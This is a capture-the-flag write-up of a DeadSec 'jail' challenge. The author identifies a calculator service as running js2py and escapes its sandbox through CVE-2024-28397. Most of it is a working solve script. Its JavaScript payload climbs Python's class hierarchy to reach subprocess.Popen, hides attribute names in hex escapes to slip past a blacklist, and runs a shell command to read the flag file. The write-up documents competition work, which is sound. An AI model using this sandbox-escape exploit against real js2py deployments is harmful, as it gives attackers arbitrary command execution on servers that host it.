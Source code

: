 ```yaml
---
ai_date: 2025-04-27 05:15:11
ai_summary: "Exploited a vulnerability in the js2py library to bypass sandbox restrictions and execute arbitrary code, retrieving the flag: DEAD{Js_2_Py_3sc4p3_wr3ck3d_my_b0x}"
ai_tags:
  - js2py
  - sandbox-escape
  - cve-2024-28397
created: 2024-07-27T06:35
description: Copy paste CVE script kiddie still blooded the challenge
points: 220
solves: 29
tags:
  - jail
  - js2py
  - blood
updated: 2025-07-14T09:46
---
```


> This is my first calculator ever, and it might have a 0day!!!

## Analysis

### eval

```bash
curl "https://22e4f6ab4aa07cbe99e7f5e8.deadsec.quest/result" ^
  --data-raw '{"inputs":"9 + 9"}'
# {"result":"18","status":"success"}
```

Obviously the server is running some sort of `eval`.

After a few probes, I realized that the server is running python, and executing our code as JS. (weird)

```js
()=>{}
"SyntaxError: Line 1: ArrowFunction is not supported by ECMA 5.1"
```

### `js2py`

A bit of researching later I realized that the server is using `js2py`.

After which I found a CVE for `js2py`, and the [poc script](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/poc.py).

I used hex encoded code ran inside of `eval()` block to avoid blacklist.

It worked, but turns out that was unintended when the author DM-ed me, he did not saw `eval` coming.

So I modified the solve script a little to work even after he patched eval.

Just use hex encoded indexers, lol.

Credits to [Marven11/CVE-2024-28397-js2py-Sandbox-Escape: CVE-2024-28397: js2py sandbox escape, bypass pyimport restriction. (github.com)](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)

## Solve Script

```python
import requests


def string_to_hex(s):
    return ''.join(f'\\x{ord(c):02x}' for c in s)


# https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/poc.py
payload = """
let cmd = "cat ../flag.txt"
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o['\\x5F\\x5F\\x73\\x75\\x62\\x63\\x6C\\x61\\x73\\x73\\x65\\x73\\x5F\\x5F']()) {
        let item = o['\\x5F\\x5F\\x73\\x75\\x62\\x63\\x6C\\x61\\x73\\x73\\x65\\x73\\x5F\\x5F']()[i]
        if(item.__module__ == "\\x73\\x75\\x62\\x70\\x72\\x6F\\x63\\x65\\x73\\x73" && item.__name__ == "\\x50\\x6F\\x70\\x65\\x6E") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
n11
"""
r = requests.post("https://22e4f6ab4aa07cbe99e7f5e8.deadsec.quest/result", json={"inputs": payload})
print(r.text)
```

```flag
DEAD{Js_2_Py_3sc4p3_wr3ck3d_my_b0x}
```